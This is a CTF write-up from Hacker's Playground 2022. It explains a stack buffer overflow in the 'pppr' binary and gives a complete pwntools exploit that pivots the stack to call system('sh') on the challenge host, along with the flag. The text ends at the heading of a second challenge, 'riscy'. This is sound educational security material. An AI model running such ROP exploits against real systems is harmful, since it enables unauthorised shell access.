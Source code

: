 # Hacker's Playground 2022

A 24h CTF Organized by Security Team of Samsung Research.

I played as a member of Soteria Team & together, we ranked 21th out of more than 700 teams.

I really enjoyed playing in this CTF & I wished it would be longer. There were some creative & hard challenges that were fun to play & discover. I've managed to solve 2 pwn challenges, helped in few & made progress in few other challenges.

------------

- [Pwn](#Pwn)
    -  [pppr](#pwn1 "Writeup")
	-  [riscy](#pwn2 "Writeup")

------------

### Pwn
1. <p name="pwn1">pppr</p>

For this one, we were given a [decompiled source code](/2022/Hacker's%20Playground%202022/sources/decompiled.c) from IDA & a x86 binary. Looking at the source code, we have a function used to read from `stdin`, this should be an equivalent to `fgets`:

```c
int __cdecl r(int a1, unsigned int a2, int a3)
{
  int result; // eax
  char v4; // [esp+3h] [ebp-9h]
  unsigned int i; // [esp+4h] [ebp-8h]

  if ( a3 )
  {
    puts("r() works only for stdin.");
    result = -1;
  }
  else
  {
    for ( i = 0; a2 > i; ++i )
    {
      v4 = fgetc(stdin);
      if ( v4 == -1 || v4 == 10 )
        break;
      *(_BYTE *)(a1 + i) = v4;
    }
    *(_BYTE *)(i + a1) = 0;
    result = i;
  }
  return result;
}
```

Looking at our main

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[4]; // [esp+0h] [ebp-8h] BYREF

  setbuf(stdin, 0);
  setbuf(stdout, 0);
  alarm(0xAu);

  r(v4, 64, 0);
  return 0;
}
```

We are clearly able to write out of bound of `v4` variable, this is our **BOF**. We also have the function `system` used in function `x` therefore we can use this instead of a **ret2libc**.

Checking the security of the binary, we have PIE disabled so we can write our `/bin/sh` into the binary & use it to call `system`. Later on I used `sh` only instead of `/bin/sh`, luckly `/bin` was in the **PATH** variable.

Plan is, write `"sh"` to a known & writeable address alongside a `system` address to call it with `sh` string. We then stack pivot to that address to make our call & get a shell. Solver:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./pppr")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("pppr.sstf.site", 1337)

    return r


def main():
    r = conn()
    
    writeable = 0x804a000+0xa00
    leave_ret = 0x08048643
    
    payload = b"A"*8
    payload += p32(writeable+len('sh')+26) # ebp
    payload += p32(exe.symbols.r)
    payload += p32(leave_ret) # ret to leave - Stack pivot
    payload += p32(writeable)
    payload += p32(0x100)
    payload += p32(0)
    
    r.sendline(payload)
    
    payload2 = b'sh\0' 
    payload2 += b'A'*25 # padding
    payload2 += p32(0)
    payload2 += p32(exe.symbols.x)
    payload2 += p32(0)
    payload2 += p32(writeable)
    
    pause()
    r.sendline(payload2)

    r.interactive() # SCTF{Anc13nt_x86_R0P_5kiLl}


if __name__ == "__main__":
    main()
```

<br />

1. <p name="pwn2">riscy</p>